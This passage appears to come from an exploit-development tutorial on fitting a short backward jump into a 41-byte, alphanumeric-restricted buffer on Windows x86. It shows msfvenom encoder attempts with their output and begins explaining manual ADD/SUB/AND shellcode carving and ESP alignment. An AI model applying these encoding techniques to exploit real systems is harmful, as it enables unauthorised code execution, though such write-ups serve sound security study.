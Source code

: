 Having a restricted 41-byte buffer, the common alphanumeric encoders are
not viable:

1. `x86/alpha_mixed` produced a 71-byte shellcode.

2. `x86/add_sub` failed.

3. `x86/opt_sub` produced a 61-byte shellcode.

Maybe the long jump instruction is too large. Let’s try with the
farthest possible short backward jump `JMP SHORT +0x80 = \xeb\x80`:

``` console
$ python -c "buff= b'\xeb\x80'; fd = open('jmp.bin', 'wb'); fd.write(buff)"
$ cat jmp.bin | msfvenom -p - -a x86 --platform windows -e x86/opt_sub -o /dev/null
Attempting to read payload from STDIN...
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/opt_sub
x86/opt_sub succeeded with size 45 (iteration=0)
x86/opt_sub chosen with final size 45
Payload size: 45 bytes
Saved as: /dev/null
$ cat jmp.bin | msfvenom -p - -a x86 --platform windows -e x86/alpha_mixed -o /dev/null
Attempting to read payload from STDIN...
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/alpha_mixed
x86/alpha_mixed succeeded with size 66 (iteration=0)
x86/alpha_mixed chosen with final size 66
Payload size: 66 bytes
Saved as: /dev/null
```

Better. However, it won’t fit either. That means that we have to encode
that short jump manually.

## Manual encoding

Having our restricted allowed characters set, the technique we will use
is known as ADD/SUB/AND encoding. The technique is fully described
[here](https://web.archive.org/web/20190218144432/https://vellosec.net/2018/08/carving-shellcode-using-restrictive-character-sets/).

Basically, what we’ll need to do is the following:

1. Point `ESP` to a place that will be in the execution flow path.

2. Manipulate `EAX` using `ADD`, `SUB` or `AND` instructions to make it
    hold our desired `\xeb\x80` value.

### Align ESP

To accomplish the first point, we need to do the following:

1. Get the current value of `ESP`.

2. Get the offset between the current `ESP` location and the place
    where we want it to be. Remember that it must be later on our
    execution path.
